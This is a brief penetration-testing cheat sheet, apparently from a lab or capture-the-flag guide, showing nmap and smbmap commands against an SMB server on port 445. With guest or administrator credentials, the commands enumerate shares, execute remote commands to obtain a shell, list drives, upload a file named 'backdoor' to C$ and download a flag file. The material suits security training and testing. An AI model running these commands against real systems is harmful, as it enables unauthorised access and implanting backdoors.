 SMB port 445 is open. We will run Nmap script to list the supported protocols and dialects of an SMB server.
```
nmap -p445 --script smb-protocols IP
```

##### SMBMap to find Shared Folders
We can find all the shares along with their permissions and the comments.

Using a Guest user account
```
smbmap -u guest -p "" -d . -H IP
```

Using an Administrator account
```
smbmap -u administrator -p password -d . -H IP
```

##### Execute the Command on the Target Machine
We can execute the commands on the target machine. This can be abused to gain a normal or meterpreter shell.
```
smbmap -u administrator -p password -d . -H IP -x 'ipconfig'
```

##### Listing all Drives and it's Contents
```
# List Drives
smbmap -u administrator -p password -d . -H IP -L

# List it's Contents
smbmap -u administrator -p password -d . -H IP -r 'C$'
```

##### Uploading and Downloading a file
```
# Uploading
smbmap -u administrator -p password -d . -H IP --upload '/root/backdoor' 'C$\backdoor'

# Downloading
smbmap -u administrator -p password -d . -H IP --download 'C$\flag.txt'
```


